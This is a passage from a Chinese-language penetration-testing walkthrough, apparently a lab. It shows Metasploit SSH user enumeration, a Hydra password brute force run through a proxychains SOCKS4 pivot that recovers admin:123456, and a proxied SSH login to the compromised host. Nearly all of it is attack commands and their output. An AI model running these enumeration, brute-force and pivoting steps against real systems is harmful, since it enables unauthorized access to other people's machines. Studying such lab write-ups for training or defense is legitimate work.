 ```
[+] 7.7.7.20:22 - SSH - User 'User' found
[-] 7.7.7.20:22 - SSH - User 'Admin' not found
[+] 7.7.7.20:22 - SSH - User 'cablecom' found
[-] 7.7.7.20:22 - SSH - User 'adm' not found
[+] 7.7.7.20:22 - SSH - User 'wradmin' found
[-] 7.7.7.20:22 - SSH - User 'netscreen' not found
[+] 7.7.7.20:22 - SSH - User 'sa' found
[-] 7.7.7.20:22 - SSH - User 'setup' not found
[+] 7.7.7.20:22 - SSH - User 'cmaker' found
[-] 7.7.7.20:22 - SSH - User 'enable' not found
[+] 7.7.7.20:22 - SSH - User 'MICRO' found
[-] 7.7.7.20:22 - SSH - User 'login' not found
[*] Caught interrupt from the console...
[*] Auxiliary module execution completed
^C
msf auxiliary(ssh_enumusers) &gt;
```

然后用hydra本地用msf模块开启的1080端口的sock4代理尝试爆破:

```
root@kali:~# proxychains hydra 7.7.7.20 ssh -s 22 -L /tmp/user.txt -P top100.txt -t 4
ProxyChains-3.1 (http://proxychains.sf.net)
Hydra v8.2 (c) 2016 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting 
[WARNING] Restorefile (./hydra.restore) from a previous session found, to prevent overwriting, you have 10 seconds to abort...
[DATA] max 4 tasks per 1 server, overall 64 tasks, 20 login tries (l:2/p:10), ~0 tries per task
[DATA] attacking service ssh on port 22
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-&lt;&gt;&lt;&gt;-7.7.7.20:22-|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-&lt;&gt;&lt;&gt;-OK&lt;&gt;&lt;&gt;-OK&lt;&gt;&lt;&gt;-OK&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-&lt;&gt;&lt;&gt;-OK
[22][ssh] host: 7.7.7.20   login: admin   password: 123456
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-&lt;&gt;&lt;&gt;-OK&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-&lt;&gt;&lt;&gt;-OK
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished
root@kali:~#
```

发现有可用帐户密码admin:123456,然后再用sock4代理ssh登录:

```
root@kali:~# proxychains ssh admin@7.7.7.20
ProxyChains-3.1 (http://proxychains.sf.net)
|D-chain|-&lt;&gt;-172.16.0.20:1080-&lt;&gt;&lt;&gt;-7.7.7.20:22-&lt;&gt;&lt;&gt;-OK
The authenticity of host '7.7.7.20 (7.7.7.20)' can't be established.
ECDSA key fingerprint is SHA256:Rcz2KrPF3BTo16Ng1kET91ycbr9c8vOkZcZ6b4VawMQ.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '7.7.7.20' (ECDSA) to the list of known hosts.
admin@7.7.7.20's password: 
bvshell:/C/Documents and Settings/All Users$ pwd
/C/Documents and Settings/All Users
bvshell:/C/Documents and Settings/All Users$ dir
2016-12-24  21:32          &lt;DIR&gt; Application Data
2016-12-25  06:16          &lt;DIR&gt; Desktop
2016-12-24  18:36          &lt;DIR&gt; Documents
2016-12-24  18:37          &lt;DIR&gt; DRM
2016-12-24  21:32          &lt;DIR&gt; Favorites
```